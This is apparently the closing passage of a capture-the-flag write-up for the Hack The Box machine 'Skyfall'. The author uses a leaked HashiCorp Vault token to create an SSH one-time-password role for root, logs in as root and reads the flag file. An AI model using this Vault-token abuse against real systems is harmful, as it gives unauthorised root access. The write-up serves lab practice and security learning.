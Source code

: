 Now going back to my Kali machine I ran these in a new shell (I left my old ssh session open in case I needed it)
## export token and URL
```bash
export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
```
```bash
export VAULT_TOKEN="hvs.[REDACTED]"
```
```bash
vault write ssh/roles/otp_key_role \
key_type=otp \
default_user=root \
cidr_list=10.10.16.1/24,10.10.11.1/24
Success! Data written to: ssh/roles/otp_key_role
```
## ssh as root 
again make sure to use OTP as password
```bash
vault ssh -role otp_key_role -mode otp -strict-host-key-checking=no root@demo.skyfall.htb
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,
Vault can automatically perform this step for you.
OTP for the session is: bd1d9[REDACTED]ca6cf1c8
(root@demo.skyfall.htb) Password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-92-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Feb  5 17:52:02 2024 from 10.10.14.151
root@skyfall:~# ls /root
minio  root.txt  sky_storage  vault
root@skyfall:~# ls /root/root.txt
/root/root.txt
root@skyfall:~# cat /root/root.txt
[REDACTED]
```

## NOTE: 
I understand this was the unintended route to root, and once week is up it will be patched and a new harder route to root will be needed. 

# Special Thanks to the HackSmarter team and community!

